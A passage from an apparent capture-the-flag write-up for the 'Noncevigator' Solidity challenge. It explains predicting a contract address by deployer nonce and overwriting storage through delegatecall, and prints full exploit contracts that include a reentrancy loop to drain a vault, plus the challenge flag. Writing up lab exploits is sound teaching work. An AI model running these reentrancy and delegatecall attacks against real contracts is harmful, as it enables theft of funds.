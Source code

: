 ```python
        break
```

From this, pulauSemakau's address seems to be manually set by the challenge to
be achievable within a small nonce (30-50). So we can repeatedly deploy
contracts until we deploy a contract at the required nonce value.

What can we do with the `unlockGate` call? Since it's being called with
`delegatecall`, the memory layout of the calling contract is inherited directly
by the callee. So, we can edit the `isLocationOpen` to directly set
`pulauSemakau` to true and get the flag.

Full exploit contracts:

```sol
pragma solidity ^0.8.19;
import { Noncevigator, TravelFundvault } from "./Noncevigator.sol";

// 1. run solve.py to generate the correct nonce
// 2. deploy Exploit to get enough ether, and extract all funds
// 3. set wallet nonce to the value
// 4. deploy Unlocker at the desired address
// 5. from wallet, call startUnlockingGate("pulauSemakau")

// 46
// TISC{ReeN7r4NCY_4ND_deTerminI5TIc_aDDReSs}

contract Exploit {
  Noncevigator public noncevigator;
  TravelFundvault public travelFundvault;

  constructor(address _Noncevigator) {
    noncevigator = Noncevigator(_Noncevigator);
    travelFundvault = TravelFundvault(noncevigator.getVaultLocation());
  }

  function execute() external payable {
    travelFundvault.deposit{value: msg.value}();
    travelFundvault.withdraw();
  }

  function solve() external payable {
    noncevigator.startUnlockingGate("pulauSemakau");
  }

  function withdraw() external {
    msg.sender.call{value: address(this).balance}("");
  }

  function getCode(address target) external returns (bytes memory o_code) {
    return target.code;
  }

  receive() external payable {
    if (address(this).balance <= 170 ether) {
      travelFundvault.withdraw();
    }
  }
}

contract Unlocker {
  mapping(string => address) private treasureLocations;
  mapping(string => bool) public isLocationOpen;
  address private travelFundVaultAddr;
  bool isCompassWorking;
```